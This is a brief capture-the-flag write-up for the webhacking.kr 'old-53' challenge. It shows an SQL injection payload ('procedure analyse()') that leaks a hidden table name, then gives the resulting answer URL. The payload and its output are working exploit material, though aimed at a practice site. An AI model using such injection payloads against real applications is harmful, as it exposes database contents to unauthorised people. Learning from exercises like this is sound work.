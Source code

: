 # Webhacking old-53 Solution

this is another sql injection problem.

here we inject this payload first in val `1 procedure analyse()`, then we can see this result:
`webhacking.chall53_755fdeb36d873dfdeb2b34487d50a805.a`

so, we now know the secret table, which is: `chall53_755fdeb36d873dfdeb2b34487d50a805`

```
https://webhacking.kr/challenge/web-28/?answer=chall53_755fdeb36d873dfdeb2b34487d50a805
```
